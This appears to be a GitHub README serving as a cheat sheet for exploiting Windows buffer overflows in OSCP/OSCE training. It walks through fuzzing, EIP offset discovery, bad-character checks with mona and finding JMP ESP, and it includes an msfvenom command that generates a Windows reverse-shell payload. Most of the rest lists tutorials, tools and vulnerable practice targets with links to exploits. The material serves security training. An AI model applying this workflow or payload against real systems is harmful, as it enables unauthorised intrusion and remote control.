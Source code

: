 # Buffer Overflow Cheat Sheet
## Common Tips
1. Running Vulnerable-apps, then use netcat to makesure the shell connection, and test the function for buffer storing
```
netcat <target_ip> <port>
```

2. Fuzzing ([Fuzzer.py](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet/blob/master/Fuzzer.py))

3. Add pattern for crash replication and controlling EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
```

  4. Compare the bad chars
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
!mona compare -f C:\mona\vulnapp\bytearray.txt -a <ESP_badchar_address>
```
After found the bad character we have 2 method, using step 5 or 6

  5. Find address JMP ESP with the true bad chars, *if using this method please SKIP step 6-8, and continue at point 9
  ```
  !mona jmp -r esp -cpb  "\x00\xyz\xxx"
  ```
#
  6. keep the same order of outputs
```
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp
```

  7. show and select a dll module
```
!mona modules
```  
  8. find address of "jmp esp" (xff xe4)
```
!mona find -s "\xff\xe4" -m "suspectmodule.dll"
```
#
  9. find "pop,pop,ret" for SEH
```
!mona seh -m "$module"
```
  10. generate Windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -b "\x00\xyz\xxx" EXITFUNC=thread -f python -v payload"
```

## Tutorials / Methodologies
* https://github.com/gh0x0st/Buffer_Overflow
* https://infosecsanyam261.gitbook.io/tryharder/buffer-overflow
* https://blog.own.sh/introduction-to-network-protocol-fuzzing-buffer-overflow-exploitation/
* https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/
* https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://eazeysec.com/BOF-Method/
* http://www.primalsecurity.net/tutorials/exploit-tutorials/
* http://www.fuzzysecurity.com/tutorials.html
* Jump to shellcode:
  * https://www.abatchy.com/2017/05/jumping-to-shellcode.html
  * https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/

## Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/): A powerful new way to write exploits, analyze malware, and reverse engineer binary files ([whitepaper](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982), [course](https://yaksas-csc.teachable.com/p/immunity-debugger-for-exploit-devs-ycsc-lab-essentials))

* [OllyDbg](http://www.ollydbg.de/): A 32-bit assembler level analysing debugger for Microsoft Windows ([tut]())

* [Windbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows ([tut]())

* [edb](https://github.com/eteran/edb-debugger): A Linux equivalent of the famous Olly debugger on the Windows platform.

* [Boofuzz](https://github.com/jtpereyda/boofuzz): Network Protocol Fuzzing for Humans

* [mona](https://github.com/corelan/mona): A Python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform) ([tut](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/), [cheatsheet](https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/))
```
!mona findmsp
!mona modules [ -o ]: (-o: only in the application which is more reliable)
!mona jmp -r esp [ -o ] 
!mona seh       
!mona seh -m -o
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\pcmanftpd2\bytearray.bin -a 0012ED6C
!mona find -s "\xff\xe4" -m "libspp.dll"
!mona findmsp
```
* [WinDBG](http://www.windbg.org/): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows

## Exploitation for Practice
* PWK 2020
  * - [x] SyncBreeze version 10.0.28 ([exploit](https://www.exploit-db.com/exploits/42928), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/10-real-world-scenarios-part2))
  * - [x] PWK Crossfire-server 1.9.0 ([exploit](https://www.exploit-db.com/exploits/1582))
  * - [x] PWK Extra Mile Exercises: VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe
  * - [x] PWK Fixing Exploits Sync Breeze Enterprise 10.0.28
* Vunlserver ([github](https://github.com/stephenbradshaw/vulnserver), [tut](http://www.thegreycorner.com/p/vulnserver.html?m=1), [exploited functions](https://limbenjamin.com/articles/vulnserver-order-of-difficulty.html), [TRUN exploit](https://fullpwnops.com/vulnserver-trun/))
* Easy File Sharing Web Server 7.2 ([exploit](http://strongcourage.github.io/2020/04/19/bof.html), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/11-real-world-scenarios-part3), [tut](https://h0mbre.github.io/Easy_File_Sharing_Web_Server/))
* Seattle Lab Mail (SLmail) 5.5 ([python exploit](https://www.exploit-db.com/exploits/638), [C exploit](https://www.exploit-db.com/exploits/646))
* Freefloat FTP Server 1.0 ([exploit](https://www.exploit-db.com/exploits/17546))
* MiniShare 1.4.1 ([exploit](https://www.exploit-db.com/exploits/636))
* Savant Web Server 3.1 ([exploit](https://www.exploit-db.com/exploits/10434))
* WarFTP 1.65 ([exploit](https://www.exploit-db.com/exploits/3570))
* BigAnt Server 2.52 ([exploit](https://www.exploit-db.com/exploits/10973), [tut](http://www.primalsecurity.net/0x3-exploit-tutorial-buffer-overflow-seh-bypass/))
* ASX to MP3 Converter 1.82.50 ([exploit](https://www.exploit-db.com/exploits/38457), [tut](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/))
* Easy RM to MP3 Converter ([exploit](https://www.exploit-db.com/exploits/9186))
* Zip-n-Go 4.9 ([exploit](https://www.exploit-db.com/exploits/44828), [FileFuzz](http://www.fuzzing.org/wp-content/FileFuzz.zip))
* IDSECCONF 2013 myftpd challenge ([tut-xp](https://buffered.io/posts/idsecconf-2013-myftpd-challenge/), [tut-win7](https://buffered.io/posts/myftpd-exploit-on-windows-7/))
* QuickZip 4.x ([exploit](https://www.exploit-db.com/exploits/11656), [tut1](https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/), [tut2](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/))
* Easy Chat Server 3.1 ([tut](https://www.onsecurity.co.uk/blog/buffer-overflow-easy-chat-server-31))
* dostackbufferoverflowgood ([exploit & tut](https://github.com/justinsteven/dostackbufferoverflowgood))
* Vulnhub machines: [Brainpan series](https://www.vulnhub.com/series/brainpan,32/), [SmashTheTux: 1.0.1](https://www.vulnhub.com/entry/smashthetux-101,138/), [Cyberry: 1](https://www.vulnhub.com/entry/cyberry-1,217/), [Pinky’s Palace series](https://www.vulnhub.com/series/pinkys-palace,151/), [Lord Of The Root: 1.0.1](https://www.vulnhub.com/series/lord-of-the-root,67/)

### Structured Exception Handler (SEH)
* Konica Minolta FTP Utility 1.00 ([exploit](https://www.exploit-db.com/exploits/39215), [tut](https://www.youtube.com/watch?v=v0C4M0UpDbc))
* Millenium MP3 Studio 2.0 ([exploit](https://www.exploit-db.com/exploits/10240), [tut](https://fullpwnops.com/local-seh-overflow/))
* IntraSRV 1.0 ([exploit](https://cxsecurity.com/issue/WLB-2019100164), [tut](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/))
* File Sharing Wizard 1.5.0 ([exploit](https://www.exploit-db.com/exploits/47412), [tut](https://fullpwnops.com/CVE-2019-16724-Remote-Unauthenticated-SEH-overflow/))

### More Targets
* https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
* https://exploit.education/
* https://overthewire.org/wargames/narnia/
* Useful links: https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF

### Advanced Topics for OSCE
* Windows drivers: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
* https://github.com/dhn/OSCE
* https://purpl3f0xsec.tech/2019/06/18/osce-prep-1.html
* Windows Exploitation Pathway
* https://github.com/epi052/OSCE-exam-practice

## Books
* Hacking - The Art of Exploitation
* The Shellcoder’s Handbook: Discovering and Exploiting Security Holes
* Buffer Overflow Attacks: Detect, Exploit, Prevent
* Writing Security Tools and Exploits
* Penetration Testing with Shellcode: Detect, exploit, and secure network-level and operating system vulnerabilities
```
# From Kali, run first
~/OSCP/windows_buffer_overflows$ nc -l -p 1234 > VulnApp1.exe
# From Windows
C:\Tools\windows_buffer_overflows> nc -w 3 192.168.119.223 1234 < VulnApp1.exe

# Windows 10: Bridged Adapter network
# Kali: NAT network
```

* Download windows 10 x86 ISO: https://www.microsoft.com/en-gb/software-download/windows10ISO

# 
Reffrence :
* _https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/_
* _https://www.thecybermentor.com/buffer-overflows-made-easy_
* _http://strongcourage.github.io/2020/04/19/bof.html_

